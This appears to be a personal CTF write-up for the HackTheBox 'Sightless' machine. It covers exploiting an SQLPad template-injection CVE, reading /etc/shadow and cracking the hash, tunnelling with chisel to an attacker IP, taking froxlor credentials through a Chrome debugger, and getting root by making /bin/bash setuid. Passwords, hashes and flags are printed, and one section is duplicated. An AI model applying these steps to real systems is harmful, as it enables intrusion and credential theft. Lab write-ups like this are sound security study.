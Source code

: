 ```yaml
---
sticker: lucide//eye-off
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![[Pasted image 20250107170937.png]]

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![[Pasted image 20250107171213.png]]

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![[Pasted image 20250107171349.png]]

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![[Pasted image 20250107171612.png]]

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![[Pasted image 20250107172243.png]]

Let's check the web and see if there's anything related to this version:

![[Pasted image 20250107172334.png]]

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![[Pasted image 20250107182931.png]]


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![[Pasted image 20250107172243.png]]

Let's check the web and see if there's anything related to this version:

![[Pasted image 20250107172334.png]]

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![[Pasted image 20250107182931.png]]

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize the shell]], we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![[Pasted image 20250107183525.png]]

![[Pasted image 20250107183536.png]]


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![[Pasted image 20250107183633.png]]

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![[Pasted image 20250107184751.png]]

Now we are inside of michael's account, we can read the user flag now:

```ad-note
![[Pasted image 20250107184841.png]]
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![[Pasted image 20250107185646.png]]

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`

![[Pasted image 20250107192250.png]]
![[Pasted image 20250107192300.png]]

```

Now, let's visit the page:

![[Pasted image 20250107192343.png]]

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![[Pasted image 20250107193550.png]]

We got access to the panel, as seen, we have a php section, this has the following:

![[Pasted image 20250107193639.png]]

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:

![[Pasted image 20250107194238.png]]

This is the root flag:

![[Pasted image 20250107194255.png]]

Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
